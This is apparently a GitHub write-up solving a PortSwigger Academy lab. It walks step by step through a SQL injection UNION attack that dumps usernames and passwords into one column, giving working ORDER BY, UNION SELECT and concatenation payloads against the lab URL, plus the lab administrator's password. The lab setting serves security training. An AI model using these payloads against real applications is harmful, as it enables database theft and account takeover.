## LAB 4: SQL injection UNION attack, retrieving multiple values in a single column
[SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)  
**LEVEL**: PRACTITIONER  
**Description**: This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a `UNION` attack to retrieve data from other tables.

The database contains a different table called users, with columns called `username` and `password`.

To solve the lab, perform an SQL injection `UNION` attack that retrieves all `usernames` and `passwords`, and use the information to log in as the `administrator` user.

## Solution
![LAB SCREENSHOT](./assets/lab4.1.PNG)

1. We need to determine the number of columns in the table
2. Determine which column is of type string/varchar
3. We need to fetch the `usernames` and `password`
4. Login with `administrator` user

### 1. Determine the number of columns in the table
Using `ORDER BY` we can determine the number of columns in the table. `ORDER BY` sorts a table by a given column index. We can increment the column number by one until we get an error which will tell us that the previous number is the number of columns in the table. 

Trying the following parameters
`' ORDER BY 1--`
`' ORDER BY 2--`
`' ORDER BY 3--` 

On the last paramter where we order by 3 we get the following error `Internal Server Error` which is a 500 internal error. This means the number of columns in the table is 2.

FULL URL: `https://ac041f421fc249d1c0d807ab002800e3.web-security-academy.net/filter?category=Accessories' ORDER BY 3--`


### 2. Searching for string/varchar column
We need to determine if a column is of type string/varchar this is because we want to be able to return the random string value provided to us by the site as one of the fields. We need to check each column for string/varchar compatibility by return the any string value for the column.

Trying the following parameters
`' UNION SELECT 'abc',NULL--`
`' UNION SELECT NULL'abc'--` - Only the second column is of type strings/varchar so, we need to concat the two username and password into a single column.


FULL URL: `https://ac041f421fc249d1c0d807ab002800e3.web-security-academy.net/filter?category=Accessories' UNION SELECT NULL,'abc'--`

### 3. Fetch the usernames & passwords
We can now use `UNION` attack to return the username & passwords.

`' UNION SELECT NULL,username||'='||password from users--`

FULL URL: `https://ac041f421fc249d1c0d807ab002800e3.web-security-academy.net/filter?category=Accessories' UNION SELECT NULL,username||'='||password from users--`


![USERNAME & PASSWORDS SCREENSHOT](./assets/lab4.2.PNG)


### 4. Login as administrator
Login using `administrator`:`fc370xmxt1os4qi3eyh0`

![SOLVED LAB SCREENSHOT](./assets/lab4.3.PNG)


<!-- EOF -->
